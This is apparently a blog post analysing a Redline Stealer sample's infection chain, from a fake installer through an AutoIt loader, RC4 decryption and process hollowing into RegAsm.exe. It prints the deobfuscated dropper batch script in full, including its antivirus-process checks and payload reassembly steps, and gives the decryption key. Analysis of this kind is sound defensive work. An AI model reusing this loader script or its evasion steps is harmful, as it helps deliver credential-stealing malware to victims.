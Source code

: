 ## Redline Stealer Infection Chain

Came across a sample from Malware Bazaar.

SHA256: 292a43281a8146f248fb71d92e5e32597c587fe003ac3a2f3ac8227331062120

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/be015d35-f30c-46f6-bc13-a0d0e9bd6a8b)

Detect It Easy recognized the exe file as an Installer, also there were some mentions of Autoit on VirusTotal.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f3e700bb-fad6-4640-a2a3-13f4a973e34c)

There’s a bunch of garbled strings and it is also packed, typical for installers. IAT and API string references seem normal.

I read up on [eSentire’s Case Study](https://www.esentire.com/blog/esentire-threat-intelligence-malware-analysis-redline-stealer), and the initial loader for Redline are known to take form of fake installers like TeamViewer, AnyDesk, etc. A similar variant’s infection chain looks like the following, so I tried to base my analysis around this:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a9c6f5b0-f192-4959-ab4b-562aea0c1849)

In IDA, the main functionality of the program lies in `sub_4015A0`, which handles file creation, deletion, setting up uninstallers, inserting registry keys, creating directories, etc. There is an interesting `ShellExecuteW` API call with dynamically resolved strings, and when looking through Tiny Tracer logs, there was one call to this exact offset.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/8e0fc32a-a10a-481c-a513-d726df2fa6ac)

Tiny Tracer output seems to halt at `ShellExecuteW` too:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cefd1e56-adae-4cd5-b9aa-fd9cf036248e)

I couldn’t find any other process related APIs being used, so decided to see what is passed into the function. It looks like it’s copying a file `Wrist` into `Wrist.cmd` in the user’s Temp directory and executing it.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a8a71893-963f-46d9-b93d-2be2398fe8db)

`Wrist.cmd` is an obfuscated batch script.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/78fb7904-9449-4408-bb74-13801ae5b03b)

After deobfuscating, we get:

```powershell
Set oobjxQdyOhgEZ=Promptly.pif
Set MXpzMKVMvPYNjICbYkFdgBg=  
tasklist   | findstr /I "wrsa.exe opssvc.exe"  1>NUL  & if not errorlevel 1 ping -n 196 127.0.0.1
Set /a Attend=802403
tasklist   | findstr /I "avastui.exe avgui.exe nswscsvc.exe sophoshealth.exe"   & if not errorlevel 1 Set oobjxQdyOhgEZ=AutoIt3.exe   & Set MXpzMKVMvPYNjICbYkFdgBg=.a3x
cmd /c md %Attend%
findstr /V "LyingBaghdadProgrammersAtom" Fisher  1>%Attend%\%oobjxQdyOhgEZ%
copy /b %Attend%\%oobjxQdyOhgEZ% + Collected + Thomas + Mandate + Formed + Notify + Fusion + Hs + Joke + Uni + Painful + Harmful + Sullivan + Exhibition + Monster + Dated + Senegal + Maritime + Token + Lovely + Essentially + Verde + Fork + Mumbai + Horse %Attend%\%oobjxQdyOhgEZ%
cmd /c copy /b Drew + Folder + %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
start /I %Attend%\%oobjxQdyOhgEZ% %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
timeout 5
```

This checks for processes `wrsa.exe` and `opssvc.exe`, if found, ping the localhost 196 times. It also checks for antivirus services on the system `avastui.exe, avgui.exe, nswscsvc.exe sophoshealth.exe`, if found, `oobjxQdyOhgEZ` is set to `AutoIt3.exe` instead of `Promptly.pif`. It creates a directory named `802403`, and in there, constructs a file Promptly.pif or AutoIt3.exe using contents from different files i.e. Collected, Thomas, Mandate, …, and attempt to run it, passing in the file `802403\U` as an argument. 

During the execution of the initial installer, we can see that it drops the fragmented AutoIt3.exe files into the Temp directory. Here’s one of the fragments being created, seen in Tiny Tracer:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/6e096cc9-845d-45d8-9c1b-6243b8e52005)

Anyways, this seems like a legitimate AutoIt3 interpreter based on VirusTotal reports. However, the payload in `802403\U` looks encrypted. After some research, the last stage typically involves some sort of injection technique and after some tinkering and setting breakpoints on `CreateProcess`, `OpenProcess`and `NtResumeThread`, etc. what happens is the AutoIt3 interpreter decrypts the payload in memory and does process hollowing on `RegAsm.exe`.  And its parent process is `explorer.exe`, weird. I suspended the process quickly after the payload is injected and used pe-sieve to dump out suspicious memory regions. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cd0395ac-84a9-494a-8efb-543cde124c26)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ca08fb7d-b7bc-490e-b79a-dee6630ec7cc)

The memory region at `0xdb0000` seems promising. 

After unmapping it in PE-bear, it looks like a .NET file, so opening it up in dnSpy, we are greeted with the final stage of the malware!

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/9805e5d4-3ac7-4cde-b8a3-5bf7591a0d9f)

But how did the decryption happen of the payload happen? Going back to executing `Promptly.pif` (or AutoIt3.exe), there was a `VirtualAlloc` call and a decryption routine shellcode written to that memory at `0x112000`, so I enabled a memory breakpoint on that address to catch the execution of that stub.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/79705fed-7511-4cbf-b9ac-6c6670464bd8)

Dumping the shellcode and opening it in IDA, we can see 2 functionalities related to RC4, the initialization stage in `sub_2` and the XOR stage in `sub_93`. (learned this from Zero2Automated lol)

`sub_2`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ce203bc6-7a4f-4cfa-b09e-4bfb919241ca)

`sub_93`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f6125b26-114e-4651-98b1-f3c1c8fa1d4a)

Looking back at the arguments being passed into `sub_2`, the RC4 key is `8518543726503553863083291645022577371`.

Setting another breakpoint at the end of the decryption routine, we can see the encrypted blob that was decrypted at the same address `0x4790048` (this was on a second run because I messed up the first run).

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a4a6ed0-82eb-46bc-a636-cc29b17f22db)

But this PE file looks slightly different than the one I dumped previously. But thanks to a blog post from c3rb3ru5d3d53c, turns out it’s just compressed, and will be decompressed later and injected into a process, in my case `RegAsm.exe`.  Technically, I should run API monitor and track whichever API call was used for decompression and injection techniques, but I’m kinda lazy. But here’s a [list](https://github.com/cuckoosandbox/cuckoo/wiki/Hooked-APIs-and-Categories) of generic API calls you can enable for monitoring.

Anyways this is just a quick summary on how to get to the Redline code and demoing how the infection chain works !!
